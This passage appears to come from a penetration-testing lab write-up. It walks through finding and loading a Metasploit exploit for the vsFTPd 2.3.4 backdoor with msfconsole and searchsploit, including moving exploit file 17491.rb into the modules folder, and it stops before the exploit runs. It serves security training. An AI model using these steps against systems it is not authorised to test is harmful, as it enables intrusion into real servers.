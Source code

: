 This tells us that there is a vulnerability on this port — **vsFTPd version 2.3.4 backdoor**.
To exploit it, we will use **msfconsole**, which can be launched with the following command in the terminal:

```bash
msfconsole
```

Now, when we've entered **msfconsole**, we use the `search` command to find the exploit that we can use for the attack:

```bash
search vsftpd backdoor
```
We also can use `searchsploit` to find payload:

```bash
searchsploit vsftpd backdoor
```

We will get the following result:
![alt text](images/image20.png)

We need to copy the payload with folowing command:

```bash
searchsploit -m unix/remote/17491.rb
```

After that we need to copy it to metasploit exploit folder:

```bash
sudo mv ./17491.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/
```

And we can use exploit:
```bash
use exploit/unix/ftp/17491
```

For msfconsole search we will get the following result, showing that the exploit has been found and we can use it by selecting the module with `use 0`:

![alt text](images/image-2.png)
